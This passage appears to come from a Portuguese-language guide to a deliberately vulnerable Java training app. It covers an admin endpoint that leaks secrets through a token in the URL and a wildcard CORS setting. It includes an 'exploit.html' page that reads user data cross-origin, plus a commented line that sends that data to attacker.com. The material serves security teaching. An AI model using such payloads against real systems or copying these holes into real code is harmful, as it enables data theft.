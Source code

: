 **Via curl:**
```bash
curl "http://localhost:8080/users/admin/1?token=admin123"
```

**Via navegador - No frontend:**
1. Clique no botão "Acessar Admin"
2. Abra o Developer Tools (F12) > Console
3. Veja os dados expostos

**Resposta esperada:**
```json
{
  "userId": "1",
  "role": "admin",
  "apiKey": "sk-1234567890abcdef",
  "dbPassword": "P@ssw0rd123"
}
```

**Impacto:**
- Exposição da senha do banco de dados
- Exposição de API Keys
- Comprometimento total do sistema

---

### 5. 🌐 CORS Mal Configurado

**Localização:** `UserController.java`

**Código vulnerável:**
```java
@CrossOrigin(origins = "*") // ❌ Aceita requisições de QUALQUER origem!
```

#### 🎯 Como explorar:

**Criar arquivo HTML malicioso (`exploit.html`):**
```html
<!DOCTYPE html>
<html>
<head><title>CSRF Attack Demo</title></head>
<body>
<h1>Página Maliciosa</h1>
<script>
  // Roubar dados da API
  fetch('http://localhost:8080/users/search?name=admin')
    .then(res => res.json())
    .then(data => {
      console.log('Dados roubados:', data);
      // Enviar para servidor do atacante
      // fetch('http://attacker.com/steal', {method: 'POST', body: JSON.stringify(data)});
    });
</script>
</body>
</html>
```
